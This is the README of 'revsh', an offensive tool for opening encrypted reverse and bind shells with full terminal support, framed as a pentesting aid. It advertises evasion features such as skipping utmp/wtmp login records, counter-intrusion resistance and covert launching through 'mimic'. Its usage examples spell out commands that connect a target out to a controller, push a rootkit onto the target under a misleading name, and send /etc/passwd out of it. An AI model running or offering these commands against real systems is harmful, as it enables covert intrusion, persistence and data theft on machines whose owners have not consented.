 # revsh #

_revsh_ is a tool for establishing a [reverse shell](http://en.wikipedia.org/wiki/Reverse_shell) with [terminal](http://en.wikipedia.org/wiki/Computer_terminal) support.

**What is a "reverse shell"?**

A reverse shell is a network connection that grants [shell](http://en.wikipedia.org/wiki/Shell_%28computing%29) access to a remote host. As opposed to other remote login tools such as [telnet](http://en.wikipedia.org/wiki/Telnet) and [ssh](http://en.wikipedia.org/wiki/Secure_Shell), a reverse shell is initiated by the remote host. This technique of connecting outbound from the remote network allows for circumvention of firewalls that are configured to block inbound connections only. 

**What is a "bind shell"?**

A [bind shell](http://en.wikipedia.org/wiki/Shellcode#Remote) is a shell that is served from a normal forward network connection. _revsh_ supports both reverse and bind shells. To invoke a bind shell you can either invoke the _-b_ flag on both ends of the connection, or invoke the binary as '_bindsh_'.


**Can't I just use [netcat](http://en.wikipedia.org/wiki/Netcat)?**

There are [many techniques](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for establishing a reverse shell, but these methods don't provide terminal support. _revsh_ allows for a reverse shell whose connection is mediated by a [pseudo-terminal](http://en.wikipedia.org/wiki/Pseudoterminal), and thus allows for features such as:

 * [job control](http://en.wikipedia.org/wiki/Job_control)
 * [control character processing](http://en.wikipedia.org/wiki/Control_character) (e.g [Ctrl-C](http://en.wikipedia.org/wiki/Control-C))
 * [auto-completion](http://en.wikipedia.org/wiki/Auto-completion)
 * support for programs requiring a [controlling tty](https://github.com/emptymonkey/ctty) (e.g. [sudo](http://en.wikipedia.org/wiki/Sudo))
 * [processing of window re-size events](http://linux.die.net/man/4/tty_ioctl)

In addition, _revsh_ also offers the following features:
 * [UTF-8](http://en.wikipedia.org/wiki/UTF-8) support.
 * Circumvents [utmp / wtmp](http://en.wikipedia.org/wiki/Utmp). (No login recorded.)
 * Processes [rc file](http://en.wikipedia.org/wiki/Run_commands) commands upon login for easy scripting.
 * [OpenSSL](https://www.openssl.org/) encryption with key based authentication baked into the binary.
 * Anonymous [Diffie-Hellman](http://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange) encryption upon request.
 * Ephemeral Diffie-Hellman encryption as default. (Now with more [Perfect Forward Secrecy](http://en.wikipedia.org/wiki/Forward_secrecy)!)
 * [Cert pinning](http://en.wikipedia.org/wiki/Transport_Layer_Security#Certificate_pinning) for protection against [sinkholes](http://en.wikipedia.org/wiki/DNS_sinkhole) and [mitm](http://en.wikipedia.org/wiki/Man-in-the-middle_attack) counter-intrusion.
 * Connection timeout for remote process self-termination.
 * Randomized retry timers for non-predictable auto-reconnection.
 * Netcat style non-interactive data brokering for file transfer.

_revsh_ is intended as a supplementary tool for a [pentester's](http://en.wikipedia.org/wiki/Pentester) toolkit that provides the full set of terminal features across an encrypted tunnel. All together in a small (~50k) easy to use binary.

**Where can I use _revsh_?**

_revsh_ was developed on x86_64 Linux. Here is a brief list of Arch / OS combinations that it has been used on:
 * x86_64 Linux
 * i686 Linux
 * amd64 FreeBSD

(If you have successfully used revsh on another platform, drop me a line and I'll add it to the list.)

## Usage ##

	empty@monkey:~$ revsh -h
	
	usage:    revsh [-c [-a] [-d KEYS_DIR] [-f RC_FILE]] [-s SHELL] [-t SEC] [-r SEC1[,SEC2]] [-b [-k]] [-n] [-v] [ADDRESS:PORT]

	  -c              Run in command and control mode.                 (Default is target mode.)
	  -a              Enable Anonymous Diffie-Hellman mode.            (Default is "!ADH:DHE-RSA-AES256-SHA".)
	  -d KEYS_DIR     Reference the keys in an alternate directory.    (Default is "~/.revsh/keys/".)
	  -f RC_FILE      Reference an alternate rc file.                  (Default is "~/.revsh/rc".)
	  -s SHELL        Invoke SHELL as the remote shell.                (Default is "/bin/bash".)
	  -t SEC          Set the connection timeout to SEC seconds.       (Default is "3600".)
	  -r SEC1,SEC2    Set the retry time to be SEC1 seconds, or        (Default is "600,1200".)
	                  to be random in the range from SEC1 to SEC2.
	  -b              Start in bind shell mode.                        (Default is reverse shell mode.)
	  -k              Start the bind shell in keep-alive mode.         (Ignored in reverse shell mode.)
	  -n              Non-interactive netcat style data broker.        (Default is interactive w/remote tty.)
	                  No tty. Useful for copying files.
	  -v              Verbose output.
	  -h              Print this help.
	  ADDRESS:PORT    The address and port of the listening socket.    (Default is "127.0.0.1:9999".)

	  Notes:
	      * The -b flag must be invoked on both the control and target hosts to enable bind shell mode.
	      * Bind shell mode can also be enabled by invoking the binary as 'bindsh' instead of 'revsh'.
	      * Verbose output may mix with data if -v is used together with -n.

	  Interactive example:
	      local controller host:    revsh -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443

	  Non-interactive example:
	      local controller host:    cat ~/bin/rootkit | revsh -n -c 192.168.0.42:443
	      remote target host:       revsh 192.168.0.42:443 > ./totally_not_a_rootkit


## Example ##

First, setup the local host to be the command and control host (e.g. "monkey"):

	empty@monkey:~$ revsh -c 192.168.0.42:9999

Then connect out from the remote target host (e.g. "kitty"):

	target@kitty:~$ ./revsh 192.168.0.42:9999

We will now find a shell waiting for us back at the control host:

	Listening on 192.168.0.42:9999...  Connected!
	 Remote fingerprint expected: 09a348e737b96961d7ff9d55f958e771828f839e
	 Remote fingerprint received: 09a348e737b96961d7ff9d55f958e771828f839e
	Initializing... Done!
	
	################################
	# hostname: kitty
	# ip address: 192.168.0.123
	# real user: target
	# effective user: target
	################################
	target@kitty:/$ ls -l /etc/passwd
	-rw-r--r-- 1 root root 1538 Jul 18 22:50 /etc/passwd
	target@kitty:/$

Note, if you configured the binary at build time to change the IP:PORT address to 192.168.0.42:9999, then the above example becomes even cleaner:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./revsh

For a covert reverse shell, _revsh_ can be invoked from within [_mimic_](https://github.com/emptymonkey/mimic) on the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ ./mimic -q -e './revsh -s "./mimic -e /bin/bash"'

For netcat style data transfer (with the crypto benefits of _revsh_) invoke _revsh_ with the -n switch. This is useful for moving tools on to the target host:

	empty@monkey:~$ cat rootkit.tar | ./revsh -c -n
	target@kitty:~$ ./revsh >./totally_not_a_rootkit.tar
	

Or for moving data out from the target host:

	empty@monkey:~$ revsh -c
	target@kitty:~$ cat /etc/passwd | ./revsh -n


## Installation ##

	git clone https://github.com/emptymonkey/revsh.git
	cd revsh
	vi config.h        # Set up new defaults that fit your situation.
	make               # This *can* take a very long time, though it usually doesn't.
	make install
	cd ~/.revsh
	vi rc              # Add your favorite startup commands to really customize the feel of your remote shell.
	./revsh -h

## A Quick Note on Ethics ##

I write and release these tools with the intention of educating the larger [IT](http://en.wikipedia.org/wiki/Information_technology) community and empowering legitimate pentesters. If I can write these tools in my spare time, then rest assured that the dedicated malicious actors have already developed versions of their own.

